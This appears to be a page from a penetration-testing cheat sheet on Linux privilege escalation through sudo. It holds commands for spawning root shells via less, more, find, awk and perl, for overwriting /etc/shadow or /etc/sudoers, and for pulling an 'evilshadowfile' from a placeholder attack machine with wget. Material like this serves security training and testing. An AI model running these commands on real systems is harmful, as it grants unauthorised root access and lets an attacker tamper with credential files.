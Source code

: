 ## Sudo

If the current user is part of the sudo group, they can execute commands as root without the root password, their user password, or none at all.

Display a list of commands that can be executed as super user:

```text
sudo -l
```

Also doesn't hurt to try and spawn a root shell:

```text
sudo su
```

### Abusing sudo

If you have a limited shell that has access to some programs using `sudo` you might be able to escalate your privileges with any program that can write or overwrite files. For example, if you have sudo rights to `cp` you can overwrite `/etc/shadow` or `/etc/sudoers` with your own malicious file.

Similarly, if you have sudo rights to `wget` you can use it in combination with python's SimpleHTTPServer to overwrite `/etc/passwd` or `/etc/shadow` using the following commands:

```text
cd /etc/
python -m SimpleHTTPServer 8080
sudo wget http://[attack machine]:8080/evilshadowfile -O shadow
```

Using `less` you can go into vi, and then into a shell:

```text
sudo less /etc/shadow
v
:shell
```

Using `more` with a file that is bigger than your screen:

```text
sudo more /home/user/myfile
!/bin/bash
```

Using `find`:

```text
bash
sudo find / -exec bash -i \;
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

Perl:

```text
sudo perl
exec "/bin/bash";
ctr-d
```

